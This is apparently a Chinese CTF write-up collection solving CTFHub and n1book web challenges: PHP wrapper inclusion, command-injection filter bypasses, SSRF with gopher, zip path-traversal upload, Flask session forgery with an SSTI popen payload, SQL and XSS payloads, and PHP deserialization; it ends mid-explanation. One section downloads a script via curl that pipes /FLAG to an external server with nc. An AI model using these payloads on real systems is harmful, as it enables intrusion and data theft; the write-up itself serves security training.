2）、PHP不能识别的Content-Type类型的时候，会将http请求包中相应的数据填入变量$HTTP_RAW_POST_DATA

3）、只有Coentent-Type为multipart/form-data的时候，PHP不会将http请求数据包中的相应数据填入php://input，否则其它情况都会。填入的长度，由Coentent-Length指定。

4）、只有Content-Type为application/x-www-data-urlencoded时，php://input数据才跟$_POST数据相一致。

5）、php://input数据总是跟$HTTP_RAW_POST_DATA相同，但是php://input比$HTTP_RAW_POST_DATA更凑效，且不需要特殊设置php.ini

6）、PHP会将PATH字段的query_path部分，填入全局变量$_GET。通常情况下，GET方法提交的http请求，body为空。

总结起来就是，在用$_POST获取不到由APP或者一些接口的回调数据时,就用php://input试试 
```

题目：

```
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
i don't have shell, how to get flag? 
phpinfo 
```

这个应该也是get传参，开头的格式也是?file=,也就是说先对你输入的文件的前六个字符进行判断，如果是php://的话就执行一个php文件，如果不是就gg

搜索了一下发现这是属于php伪协议的一种类型：

php://input 是个可以访问请求的原始数据的只读流，可以读取到来自POST的原始数据。但当 enctype=”multipart/form-data” 的时候 php://input 是无效的。

利用条件：

1.  allow_url_include = On。
2.  对allow_url_fopen不做要求。

```
http:/xxx/index.php?file=php://input 
```

其他伪协议可见链接：

https://blog.csdn.net/qiuyeyijian/article/details/102993218?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-2.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-2.control (很好的一个写给萌新wp的博主，更多伪协议见下方的推荐其他的文章)


然后则这样就可以了

补充一个语句：

```
<?php system("find / -name flag*");?> 
```

用这个找挺方便的

##### 读取源代码

题目：

```
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
    //highlight_file() 函数对文件进行 PHP 语法高亮显示。语法通过使用 HTML 标签进行高亮，会显示规定要显示的文件
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
i don't have shell, how to get flag? 
flag in /flag 
```

和上一题一样我感觉，但是并不好用

```
resource=<要过滤的数据流>	  	  指定了你要筛选过滤的数据流。	必选
read=<读链的筛选列表>			 可以设定一个或多个过滤器名称，以管道符（|）分隔。	可选
write=<写链的筛选列表>			 可以设定一个或多个过滤器名称，以管道符（|）分隔。	可选
<；两个链的筛选列表>			   任何没有以 read= 或 write= 作前缀的筛选器列表会视情况应用于读或写链。 
```

这里就不能将指令POST上去了，图中又提示了必须使用`php://`，FLAG在/flag内，因此想到过滤器filter

考虑到php伪协议里面的直接读取一个文件里面的内容的一个伪协议↓

```
?file=php://filter/read=convert.base64-encode/resource=/flag（有绝对路径的限制下只用）
?file=php://filter/resource=/flag 
```

也可以去掉 `read`绕过一些限制函数

success

考查知识点：php://filter过滤器

#### 远程包含

题目：

```
<?php
error_reporting(0);
if (isset($_GET['file'])) {
    if (!strpos($_GET["file"], "flag")) {
        include $_GET["file"];
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag?<br>
<a href="phpinfo.php">phpinfo</a>
i don't have shell, how to get flag?
phpinfo 
```

也是：?file=来进行传参

让我看phpinfo文件，因为根据前面题总结的经验只要这个allow_url_include = On是开的就可以利用php://伪协议，点开phpinfo发现确实是开的，所以抓包试试，success

此题目和php://input做法一样

### 命令注入

题目：

```
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $cmd = "ping -c 4 {$_GET['ip']}";
    exec($cmd, $res);
}
?> 
```

输入框打入：127.0.0.1;ls

得到

```
Array
(
    [0] => PING 127.0.0.1 (127.0.0.1): 56 data bytes
    [1] => 24024115330223.php
    [2] => index.php
) 
```

然后输入：127.0.0.1;cat 24024115330223.php

页面没有显示，但是在源代码里面显示了flag

#### 过滤cat

题目：

```
<?php
$res = FALSE;
if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/cat/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?> 
```

和上一题目一样，只不过要防一下过滤

127.0.0.1;a=ca;b=t; a a ab flag_29869689610883.php

不错不错新思路

#### 过滤空格

在linux系统下：

1:<> 2:< 3:${IFS}这三个均可以表示空格

所以

127.0.0.1;ls

127.0.0.1;cat<flag_260652093720389.php

ybs

#### 过滤目录分隔符:/\

127.0.0.1;ls

127.0.0.1;cd flag_is_here;ls

127.0.0.1;cd flag_is_here;cat flag_25394867112070.php

也不知道为什么过滤，就好像过滤了一个寂寞

#### 过滤运算符:/(||&)/

127.0.0.1;ls

127.0.0.1;cat flag_13087279769836.php

这又是一个寂寞

#### 综合过滤练习：/(||&|;| |/|cat|flag|ctfhub)/

提示：%0a(换行符) 、%0d(回车符)

在这里的输入框输入：

127.0.0.1%0als

会发现，%0a会被两次编码，所以直接在URL里面输入才算可以

考虑到在linux系统内shell执行的并不能识别url编码，那么这里得知可以使用hex16位编码来进行转换：

使用命令 ( p r i n t f (printf (printf{IFS}“hex编码”)

127.0.0.1%0als< ( p r i n t f (printf (printf{IFS}"\x66\x6c\x61\x67\x5f\x69\x73\x5f\x68\x65\x72\x65")

得到文件：

flag_144233033911102.php

构造:

127.0.0.1;cat flag_is_here/flag_144233033911102.php

127.0.0.1%0aca’'t I F S {IFS} IFS(printf${IFS}"\x66\x6C\x61\x67\x5F\x69\x73\x5F\x68\x65\x72\x65\x2F\x66\x6C\x61\x67\x5F\x31\x34\x34\x32\x33\x33\x30\x33\x33\x39\x31\x31\x31\x30\x32\x2E\x70\x68\x70")

## SSRF

### 内网访问

题目信息：尝试访问位于127.0.0.1的flag.php吧

?url=127.0.0.1/flag.php

GG

#### 伪协议读取文件

题目信息：尝试去读取一下Web目录下的flag.php吧

?url=file:///var/www/html/flag.php

查看源文件得flag

```
URL伪协议：
file://  本地文件传输协议，File协议主要用于访问本地计算机中的文件，就如同在Windows资源管理器中打开文件一样
dict://  Dict协议,字典服务器器协议,dict是基于查询响应的TCP协议,它的目标是超越Webster protocol，并允许客户端在使用过程中访问更多字典。Dict服务器和客户机使用TCP端口2628
gopher://  Gopher协议是互联网上使用的分布型的文件搜集获取网络协议。gopher协议是在HTTP协议出现之前,在internet上常见重用的协议,但是现在已经用的很少了
sftp://  Sftp代表SSH文件传输协议（SSH File Transfer Protocol），或安全文件传输协议（Secure File Transfer Protocol），这是一种与SSH打包在一起的单独协议，它运行在安全连接上，并以类似的方式进行工作
ldap://  LDAP代表轻量级目录访问协议。它是IP网络上的一种用于管理和访问分布式目录信息服务的应用程序协议
tftp://  TFTP（Trivial File Transfer Protocol,简单文件传输协议）是一种简单的基于lockstep机制的文件传输协议，它允许客户端从远程主机获取文件或将文件上传至远程主机。 
```

##### 端口扫描

题目提示：来来来性感CTFHub在线扫端口,据说端口范围是8000-9000哦

方法一（bp进行端口爆破）：

爆破格式为




响应中查看

方法二：

```
import requests
url='http://challenge-48d05bc5759898a5.sandbox.ctfhub.com:10080/?url=127.0.0.1:'
port=8000
while port<=9000:
    Wholeurl=url+str(port)
    r = requests.get(Wholeurl)
    print(Wholeurl)
    if(len(r.content)!=0):
        print(port)
        print(r.content)
        break
    port=port+1
print("over") 
```

py脚本进行爆破

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Dlgpqdav-1617064499765)(http://images2.5666888.xyz//QQ图片20210114112554.png)]

（1/13基操↑）

### POST请求

#### 提示：

这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年

#### 扫盲：

[Gopher协议与redis未授权访问](https://mp.weixin.qq.com/s/umNUpdz6Mqvhlgqu4-9NCQ)

#### 自动组装gopher工具：

https://github.com/tarunkant/Gopherus

#### 开始解题：

1.读取flag.php

利用file://协议去读取`?url=file:///var/www/html/flag.php`

```
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") { //检测你请求的ip地址，这里是你挂的代理的ip没挂就是真实ip
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");//从环境中取字符串变量取得当前系统的环境变量
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form> 
```

再读取index.php

```
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
curl_close($ch); 
```

index中明显提到如果不设置location就会被一直重定向到这个?url=_这个页面

2.关于flag.php：

你需要post传入key的值

`?url=127.0.0.1/flag.php`

```
<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=0d6a7b9d0c4718d8fa37ad3f9d527d24-->
</form> 
```

3.利用gopher协议去传入post值

首先想要gopher协议传入post值需要提前准备`Content-Type`,`Content-Length`,`host`,`post`的参数，这个通过burp获取：

```
POST /flag.php HTTP/1.1
Host: 127.0.0.1:80
Content-Length: 36 
Content-Type: application/x-www-form-urlencoded 

key=0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

其中细节：

每个参数之间是需要回车换行的所以要紧跟%0d%0a

构造POST请求：

```
POST%20%2Fflag.php%20HTTP%2F1.1%0AHost%3A%20127.0.0.1%3A80%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0AContent-Length%3A%2036%0A%0Akey%3D0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

换行处理：

```
POST%20%2Fflag.php%20HTTP%2F1.1%0D%0AHost%3A%20127.0.0.1%3A80%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A%2036%0D%0A%0D%0Akey%3D0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

payload构造：

```
?url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520http%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Type%253A%2520application%252Fx-www-form-urlencoded%250D%250AContent-Length%253A%252036%250D%250A%250D%250Akey%253D0d6a7b9d0c4718d8fa37ad3f9d527d24 
```

### URL Bypass

描述：请求的URL中必须包含http://notfound.ctfhub.com，来尝试利用URL的一些特殊地方绕过这个限制吧

?url=http://notfound.ctfhub.com@127.0.0.1/flag.php

### 数字IP Bypass

描述：这次ban掉了127以及172.不能使用点分十进制的IP了。但是又要访问127.0.0.1。该怎么办呢

~~看了大佬的wp~~：

1.  8进制格式：0177.00.00.01
2.  16进制格式：0x7f.0x0.0x0.0x1
3.  10进制整数格式：2130706433
4.  在linux下，0代表127.0.0.1，http://0进行请求127.0.0.1

?url=0/flag.php

### 302跳转 Bypass

描述：SSRF中有个很重要的一点是请求可能会跟随302跳转，尝试利用这个来绕过对IP的检测访问到位于127.0.0.1的flag.php吧

?url=127.0.0.1/flag.php

###### DNS重绑定 Bypass

关键词：DNS重绑定。剩下的自己来吧，也许附件中的链接能有些帮助

~~搜集wp信息~~：

我们这里还是使用DNS重绑定，在网络上存在一个很神奇的服务，[http://xip.io](http://xip.io/) 当我们访问这个网站的子域名的时候，例如127.0.0.1.xip.io，就会自动重定向到127.0.0.1。
即：?url=127.0.0.1.xip.io/flag.php

但是这个题直接这样也可以

?url=127.0.0.1/flag.php

毕竟都是定向到127.0.0.1

# 历年真题(WEB)：

## 文件上传

### 考点：

1.apache文件解析漏洞：影响版本为apache 2.4.0-2.4.29

2.针对php中第三方解压pclzip的漏洞

### 函数理解：

[PHP strrchr() 函数](https://www.baidu.com/link?url=7LGyFXNc0qzo9rbSaNvdsdwYfAcvtUEjTkpFyAv2jwTT4ZYvmtKP8yV0B01uYftchVyH4BsZthWqYE4aP0JH5VAp5IhYlNR8DQU0or2LZhG&wd=&eqid=bd9a86d40011433c00000003608a9e79)：strrchr(123456789,2)在2处规定的字符，会返回从该位置到字符串结尾的所有字符：23456789，此题中可以利用此函数来得到后缀

opendir()函数：打开目录句柄，相当于ls命令

unlink()函数：删除文件，如果成功，该函数返回 TRUE。如果失败，则返回 FALSE。

[extract()函数](https://www.runoob.com/php/func-array-extract.html)：从关联数组中提取变量 ***（键为变量名，值为变量值）***，导入系统，此函数就类似于弄了一个数组，也可以理解为一个表来将目前已经存在的变量，重新覆盖，并且可以利用其中的规则，将重新覆盖的变量标注出来

### 题目：

```
<?php
header("Content-Type:text/html; charset=utf-8");

require_once('pclzip.lib.php');

if(!$_FILES){

        echo '这里本来是前端页面我直接删了没用';
    show_source(__FILE__);
}else{
    $file = $_FILES['file'];

    if(!$file){
        exit("请勿上传空文件");
    }
    $name = $file['name'];

    $dir = 'upload/';
    $ext = strtolower(substr(strrchr($name, '.'), 1));
    $path = $dir.$name;

    function check_dir($dir){
        $handle = opendir($dir);
        while(($f = readdir($handle)) !== false){
            if(!in_array($f, array('.', '..'))){
                if(is_dir($dir.$f)){
                    check_dir($dir.$f.'/');
                 }else{
                    $ext = strtolower(substr(strrchr($f, '.'), 1));
                    if(!in_array($ext, array('jpg', 'gif', 'png'))){
                        unlink($dir.$f);删除这个非法文件
                    }
                }

            }
        }
    }

    if(!is_dir($dir)){
        mkdir($dir);
    }

    $temp_dir = $dir.md5(time(). rand(1000,9999));
    if(!is_dir($temp_dir)){
        mkdir($temp_dir);
    }

    if(in_array($ext, array('zip', 'jpg', 'gif', 'png'))){
        if($ext == 'zip'){
            $archive = new PclZip($file['tmp_name']);
            foreach($archive->listContent() as $value){
                $filename = $value["filename"];
                if(preg_match('/\.php$/', $filename)){
                     exit("压缩包内不允许含有php文件!");
                 }
            }
            if ($archive->extract(PCLZIP_OPT_PATH, $temp_dir, PCLZIP_OPT_REPLACE_NEWER) == 0) {
                   exit("解压失败");
                   check_dir($dir);
            }

            check_dir($dir);
            exit('上传成功!');
        }else{
            move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
            check_dir($dir);
            exit('上传成功!');
        }
    }else{
        exit('仅允许上传zip、jpg、gif、png文件!');
    }
} 
```

### 思路：

#### 第一步的绕过：

利用apache的文件解析漏洞来实现php文件能够执行：

需要将带有木马的php文件名字改为1.php.111，让111无法被是被然后继续向左来识别php来确定文件类型

#### 第二步的绕过：

在源代码中由定义check_dir函数方法来检查目录的情况，如果不是一个目录的话，会删除这个非法文件，并提示解压失败，所以要构造的特殊压缩包（解压到一半在突出）的方法不可取，所以利用pclzip的已知漏洞：目录穿越问题。如果解压出的文件能都逃掉check_dir这一环节那么解压出的问价就不会被删除。

源代码可以知道所上传的文件在upload/md5/目录下的，所以要穿越两层：…/…/

### 解题：

1.生成带有木马的名字为xxxxxxx.php.xxx的文件，然后生成压缩包

2.010editer打开zip文件：[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-JRtvAVAc-1622077440017)(http://images2.5666888.xyz//搜狗截图21年04月30日1922_2.png)]

修改这个地方，这里也就体现出了名字为什么一开始设置为7个x了

然后把这个zip上传，然后访问x.php.xxx就能得到flag

## 粗心的小李

### 考点：

git文件泄露

### 思路：

githack工具利用

### 解题：

```
git clone https://github.com/BugScanTeam/GitHack
cd GitHack
python GitHack.py http://challenge-df81f549db86830c.sandbox.ctfhub.com:10080/.git 
```

会得到indedx.html同时flag也被部署到了前端

## 常见的收集

### 考点：

敏感文件

### 思路：

御剑或者burp配合字典半自动化搜索

### 解题：

实际暴露的敏感信息：

robots.txt

index.php~

.index.php.swp

然后拼接这三部分的flag

## afr-1

### 考点：

[php中伪协议总结](https://www.cnblogs.com/zzjdbk/p/13030717.html)：

php://filter伪协议的利用

条件：

不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

### 思路：

直接构造payload

### 解题：

payload：

```
?p=php://filter/read=convert.base64-encode/resource=flag 
```

得：

```
<?php
die('no no no');
//n1book{afr_1_solved} 
```

## afr-2

### 考点：

目录穿越

### 解题：

打开一看，发现精神小伙，f12发现来自img

http://challenge-63b251d2430d82a1.sandbox.ctfhub.com:10080/img…/

打开目录下面的flag下载得

n1book{afr_2_solved}

## afr-3

### 考点：

1.目录穿越

2.对linux/proc目录的较为深层次的理解：

/proc目录通常存储着进程动态运行的各种信息，本质上是一种虚拟目录。

对应目录下的cmdline可读出比较敏感的信息，

Linux系统上的/proc目录是一种文件系统，即proc文件系统。与其它常见的文件系统不同的是，/proc是一种伪文件系统（也即虚拟文件系统），存储的是当前内核运行状态的一系列特殊文件，用户可以通过这些文件查看有关系统硬件及当前正在运行进程的信息，甚至可以通过更改其中某些文件来改变内核的运行状态。
/proc/[pid],当查看当前进程的时候可以用/proc/self代替
cmdline — 启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息
cwd — 指向当前进程运行目录的一个符号链接
environ — 当前进程的环境变量列表，彼此间用空字符（NULL）隔开；变量用大写字母表示，其值用小写字母表示

```
/proc/sched_debug # 提供cpu上正在运行的进程信息，可以获得进程的pid号，可以配合后面需要pid的利用
/proc/mounts # 挂载的文件系统列表
/proc/net/arp # arp表，可以获得内网其他机器的地址
/proc/net/route # 路由表信息
/proc/net/tcp and /proc/net/udp # 活动连接的信息
/proc/net/fib_trie # 路由缓存
/proc/version  # 内核版本
/proc/[PID]/cmdline # 可能包含有用的路径信息
/proc/[PID]/environ #  程序运行的环境变量信息，可以用来包含getshell
/proc/[PID]/cwd     # 当前进程的工作目录
/proc/[PID]/fd/[#] # 访问file descriptors，某写情况可以读取到进程正在使用的文件，比如access.log 
```

3.flasksession伪造

### 思路：

利用目录穿越实现读取/proc/self/cmdline，读取flag.py，读取key.py

利用脚本配合key伪造session

### 解题：

```
?name=../../../../proc/self/cmdline 
```

得pythonserver.py

```
?name=../../../../proc/self/cwd/server.py 
```

得

```
 import os
from flask import (Flask, render_template, request, url_for, redirect, session, render_template_string)
from flask_session import Session

app = Flask(__name__)
execfile('flag.py')
execfile('key.py')
FLAG = flag
app.secret_key = key 

@app.route("/n1page", methods=["GET", "POST"])

def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None
    if n1code is not None: 
    	n1code = n1code.replace(".", "").replace("_", "").replace("{", "").replace("}", "")
	if "n1code" not in session or session['n1code'] is None: session['n1code'] = n1code
	template = None
	if session['n1code'] is not None: 
		template = 
		'''
		<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> 
		''' %
		session['n1code']
		session['n1code'] = None
		return render_template_string(template) 

@app.route("/", methods=["GET"])

def index(): 
	return render_template("main.html") 

@app.route('/article', methods=['GET'])

def article(): 
	error = 0

if 'name' in request.args:
    page = request.args.get('name') else:
    page = 'article'
if page.find('flag') >= 0: page = 'notallowed.txt'
try:
    template = open('/home/nu11111111l/articles/{}'.format(page)).read() except Exception as e:
    template = e
	return render_template('article.html', template=template)

if __name__ == "__main__": 
	app.run(host='0.0.0.0', debug=False) 
```

[flask之ssti模版注入从零到入门](https://xz.aliyun.com/t/3679)

目前的session经过解密是：{‘n1code’: None}

针对源代码进行注入：

```
{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'} 
```

这个地方为什么注入这样的语句我没弄明白

3.利用脚本配合key.py构造session

获取key.py

```
?name=../../../../proc/self/cwd/key.py 
```

key = ‘Drmhze6EPcv0fN_81Bj-nA’

```
 python hctf_admin_2.py encode -s "Drmhze6EPcv0fN_81Bj-nA" -t "{'n1cod
e': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}"
得到：
.eJwdikEKgCAQAL8SXlYvQl2CviKxbGoRmCtZhxD_nnUbZqaI2Ft2XkyiFACNaAPljNjoOBnRDHPDfC-_961IZcb-k3vcr3_cAi8UWjLAGWadOPkowdLVrYE2nR5Q-vTkpKpV1BcrHygP.YIwlRQ.1bHGytWxAX498Sfx6r9JQtrwrSU 
```

将其保存到cookie中的session中即可，注意前面的点

## SQL注入-1

```
&tips=1 
```

得到提示：select * from notes where id =‘3’

payload：

```
1' order by 4 --+
1' order by 3 --+
-1' union select 1,2,3 --+
-1' union select 1,database(),3 --+
-1' union select 1,concat(table_name),3 from information_schema.tables where table_schema='note' --+
-1' union select 1,concat(column_name),3 from information_schema.columns where table_name='fl4g' --+
-1' union select 1,concat(fllllag),3 from note.fl4g --+ 
```

得到flag：**n1book{union_select_is_so_cool}**

## SQL注入-2

### 考点：

报错注入

### 解题：

#### 基于报错：

```
name=1'and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+&pass=xxxx
name=1'and updatexml(1,concat(0x7e,(seLEct group_concat(table_name) from information_schema.tables where table_schema='note'),0x7e),1)--+&pass=xxxx
name=1'and updatexml(1,concat(0x7e,(seLEct group_concat(column_name) from information_schema.columns where table_name='fl4g'),0x7e),1)--+&pass=xxxx
name=1'and updatexml(1,concat(0x7e,(seLEct group_concat(flag) from note.fl4g),0x7e),1)--+&pass=xxxx 
```

得：n1book{login_sqli_is_nice}

#### 基于时间：

大体骨架：

```
name=1'+or+if(substr(database(),1,1)='n',sleep(1),1)#&pass=xxx 
```

脚本：

```
import requests
import time

l = 'qwertyuiopasdfghjklzxcvbnm-=+_,.1234567890{}'
url = 'http://challenge-92892f03ae72aafc.sandbox.ctfhub.com:10080/login.php'

sql = "1' or if(substr((seLEct flag from fl4g),%d,1)='%s',sleep(2),1)#"
flag = ''

length=4
for num in range(1,length+1):
    for i in l:
        data = {
            'name' : sql %(num,i),
            'pass' : 'asdasd'
        }

        t = int(time.time())
        r = requests.post(url = url , data=data)
        if int(time.time()) - t > 2 :
            flag += i
            print("flag:" , flag)
            break
print(flag) 
```

## 死亡ping命令

### 考点：

[反弹shell原理与实现](https://zhuanlan.zhihu.com/p/138393396)

[nc工具的使用](https://blog.csdn.net/xysoul/article/details/52270149)

### 思路：

利用curl命令来写入木马

利用已有的服务器，先编写脚本，然后再客户端将木马导入，再用该服务器对响应的端口进行监听，来获取返回值

### 解题：

在外部服务器编写脚本1.sh：

```
ls / | nc [服务器ip地址] 8089
cat /FLAG | nc [服务器ip地址] 8089 
```

payload：

```
127.0.0.1%0acurl [服务器ip地址]/1.sh > /tmp/1.sh
127.0.0.1%0achmod 777 -R /tmp/1.sh 
```

然后在服务器端执行：

```
nc -lvp 8089 
```

客户端触发脚本：

```
127.0.0.1%0ash /tmp/1.sh 
```

这时候就会反弹得到flag

## XSS闯关

### level1

level1?username=xss

构造payload：

```
level1?username= 
```

### level2

插不进去的原因：

```
 if(location.search == ""){
    		location.search = "?username=xss"
    	}
    	var username = '';
    	document.getElementById('ccc').innerHTML= "Welcome " + escape(username); 
```

传入的参数被escape函数编码了

#### 扫盲：

JavaScript escape() 函数

[ JavaScript 全局函数](https://www.runoob.com/jsref/jsref-obj-global.html)

* * *

定义和用法

escape() 函数可对字符串进行编码，这样就可以在所有的计算机上读取该字符串。

该方法不会对 ASCII 字母和数字进行编码，也不会对下面这些 ASCII 标点符号进行编码： * @ - _ + . / 。其他所有的字符都会被转义序列替换。

**提示：** 使用 [unescape()](https://www.runoob.com/jsref/jsref-unescape.html) 方法对字符串进行解码。

#### bypass:

```
level2?username';alert(1);// 
```

### level3

bypass:

```
 
```

### level4

本地特色：

```
 <script type="text/javascript"> var time = 10;
    	var jumpUrl;
    	if(getQueryVariable('jumpUrl') == false){
    		jumpUrl = location.href;
    	}else{
    		jumpUrl = getQueryVariable('jumpUrl');
    	}
    	setTimeout(jump,1000,time);
    	function jump(time){
    		if(time == 0){
    			location.href = jumpUrl;
    		}else{
    			time = time - 1 ;
    			document.getElementById('ccc').innerHTML= `页面${time}秒后将会重定向到${escape(jumpUrl)}`;
    			setTimeout(jump,1000,time);
    		}
    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		} </script> 
```

利用location.herf=jumpurl来实现一个重定向

构造payload：

```
?jumpUrl=javascript:alert(1); 
```

### level5

```
 <script type="text/javascript"> if(getQueryVariable('autosubmit') !== false){
    		var autoForm = document.getElementById('autoForm');
    		autoForm.action = (getQueryVariable('action') == false) ? location.href : getQueryVariable('action');
    		autoForm.submit();
    	}else{

    	}
		function getQueryVariable(variable)
		{
		       var query = window.location.search.substring(1);
		       var vars = query.split("&");
		       for (var i=0;i<vars.length;i++) {
		               var pair = vars[i].split("=");
		               if(pair[0] == variable){return pair[1];}
		       }
		       return(false);
		} </script> 
```

保证autosubmit和action有参数，然后autoForm的参数将会被执行

bypass：

```
?autosubmit=1&action=javascript:alert(1); 
```

### level6

javascript框架：angularjs1.4.6

首先参考下面这个网页：
AngularJS客户端模板注入（XSS）
看完后就是模板注入XSS有了了解，不过由于我们的Angular版本是1.4.6，存在沙箱，因此要去搜索这个版本的Angular的沙箱逃逸的方法：
AngularJS Sandbox Bypasses
从中得知的逃逸的办法：

```
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}} 
```

后面的alert(1)那里可以换成任意js函数。不过这题我们不需要，直接构造就可以了：

```
?username={{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}} 
```

## 2020-网鼎杯-青龙组-Web-AreUSerialz

题目：

```
<?php

include("flag.php");

highlight_file(__FILE__);

class FileHandler {

    protected $op;
    protected $filename;
    protected $content;

    function __construct() {
        $op = "1";
        $filename = "/tmp/tmpfile";
        $content = "Hello World!";
        $this->process();
    }

    public function process() {
        if($this->op == "1") {
            $this->write();
        } else if($this->op == "2") {
            $res = $this->read();
            $this->output($res);
        } else {
            $this->output("Bad Hacker!");
        }
    }

    private function write() {
        if(isset($this->filename) && isset($this->content)) {
            if(strlen((string)$this->content) > 100) {
                $this->output("Too long!");
                die();
            }
            $res = file_put_contents($this->filename, $this->content);
            if($res) $this->output("Successful!");
            else $this->output("Failed!");
        } else {
            $this->output("Failed!");
        }
    }

    private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }

    private function output($s) {
        echo "[Result]: <br>";
        echo $s;
    }

    function __destruct() {
        if($this->op === "2")
            $this->op = "1";
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

### 第一层bypass：

利用php7.1的特性对由protected反序列化产生的特殊字符导致无法绕过ord函数来进行绕过：修改成员的属性为public

### 第二层bypass：

由于write()函数在逻辑上一点用没有，所以想要实现file_get_contents函数的调用就必须使用read函数，所以利用=<mark>与</mark>强弱类型bypass：$op=2;

最后的参数赋值为flag.php

exp：

```
<?php
class FileHandler {

    public $op = 2;
    public $filename = "flag.php";
    public $content;

    }
$a = new FileHandler();
echo urlencode(serialize($a));
?> 
```

得：

```
?str=O%3A11%3A%22FileHandler%22%3A3%3A%7Bs%3A2%3A%22op%22%3Bi%3A2%3Bs%3A8%3A%22filename%22%3Bs%3A8%3A%22flag.php%22%3Bs%3A7%3A%22content%22%3BN%3B%7D 
```

右键源代码查看flag

## 2020-网鼎杯-朱雀组-Web-nmap

与buuctf上的[BUUCTF 2018]Online Tool很像

### hints：

flag is in /flag

### 知识点：

1.[escapeshellarg()+escapeshellcmd()](https://paper.seebug.org/164/)两个函数并用导致的多个参数的注入

2.nmap命令参数：

-oN 标准保存
-oX XML保存
-oG Grep保存
-oA 保存到所有格式
-append-output 补充保存文件

### bypass细节：

传入127.0’ -oG

经过escapeshellarg()函数处理（先转义单引号，再用单引号将左右两部分的的参数括起来，被转义的单引号不在范围之内）：

1.`127.0\' -oG`

2.`'127.0'\' '-oG'`

然后经过[escapeshellcmd()函数](https://www.php.net/manual/zh/function.escapeshellcmd.php)处理（在linux系统中&#;`|*?~<>^()[]{}$, \x0A和 \xFF将会被转义。 ’ 和 "仅在不配对儿的时候被转义。）：

